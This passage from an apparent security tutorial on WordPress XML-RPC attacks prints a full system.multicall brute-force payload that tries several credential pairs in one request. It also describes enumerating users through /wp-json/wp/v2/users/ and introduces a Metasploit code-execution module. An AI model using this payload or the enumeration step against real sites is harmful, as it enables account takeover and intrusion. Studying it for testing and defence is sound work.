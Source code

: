 

After a successful brute-force attack you can sort the results based on the response length. A noticeably different response length often indicates a successful login. Upon reviewing the response if you see “isAdmin” or other indicators of authentication, it means valid login credentials have been found.

Brute force attacks using system multicall
XML-RPC in WordPress supports a method called system.multicall which allows attackers to execute multiple commands in a single request. This is often exploited for brute-force attacks, as it enables attackers to attempt numerous login attempts simultaneously.

Here’s an example of the XML request attackers might use for a system.multicall brute-force attack:

<?xml version="1.0"?>
<methodCall><methodName>system.multicall</methodName><params><param><value><array><data>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

</data></array></value></param></params></methodCall>
Explanation:
system.multicall: Allows multiple API calls in a single request.
wp.getUsersBlogs: A method used to authenticate users. If successful, it returns blog information.
Multiple Credential Attempts: Attackers send several username-password combinations at once.
XML-RPC Bruteforce tool
For this PoC I created my own tool that uses XML-RPC to brute-force WordPress logins by providing a username and password list.


This script uses the /wp-json/wp/v2/users/ endpoint which often exposes a list of registered users that attackers can exploit for brute-force attempts via XML-RPC using a custom wordlist of your choice

PHP XML-RPC Arbitrary Code Execution
This exploit targets an arbitrary code execution vulnerability found in many implementations of the PHP XML-RPC module. It’s exploitable across various PHP web applications including Drupal, WordPress, PostNuke and TikiWiki.

To view the available options load the module in the Metasploit console and run the commands show options or show advanced:
